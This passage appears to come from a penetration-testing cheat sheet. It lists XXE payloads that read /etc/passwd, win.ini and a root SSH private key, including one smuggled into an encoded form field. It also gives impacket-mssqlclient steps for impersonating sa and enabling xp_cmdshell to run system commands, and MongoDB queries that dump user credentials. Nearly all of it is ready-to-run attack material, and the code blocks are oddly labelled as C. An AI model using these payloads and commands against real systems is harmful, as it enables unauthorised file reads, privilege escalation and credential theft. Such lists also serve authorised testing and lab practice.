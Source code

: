 ##### Payloads

```c
<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE xxe [ <!ENTITY passwd SYSTEM 'file:///etc/passwd'> ]>
 <stockCheck><productId>&passwd;</productId><storeId>1</storeId></stockCheck>
```

```c
<?xml version="1.0"?><!DOCTYPE root [<!ENTITY test SYSTEM 'file:///c:/windows/win.ini'>]><order><quantity>3</quantity><item>&test;</item><address>17th Estate, CA</address></order>
```

```c
username=%26username%3b&version=1.0.0--><!DOCTYPE+username+[+<!ENTITY+username+SYSTEM+"/root/.ssh/id_rsa">+]><!--
```

### Database Analysis

#### impacket-mssqlclient

##### Common Commands

```c
enum_logins
enum_impersonate
```

##### Connection

```c
impacket-mssqlclient <USERNAME>@<RHOST>
impacket-mssqlclient <USERNAME>@<RHOST> -windows-auth
sudo mssqlclient.py <RHOST>/<USERNAME>:<USERNAME>@<RHOST> -windows-auth
```

```c
export KRB5CCNAME=<USERNAME>.ccache
impacket-mssqlclient -k <RHOST>.<DOMAIN>
```

##### Privilege Escalation

```c
exec_as_login sa
enable_xp_cmdshell
xp_cmdshell whoami
```

#### MongoDB

```c
mongo "mongodb://localhost:27017"
```

```c
> use <DATABASE>;
> show tables;
> show collections;
> db.system.keys.find();
> db.users.find();
> db.getUsers();
> db.getUsers({showCredentials: true});
> db.accounts.find();
> db.accounts.find().pretty();
> use admin;
```
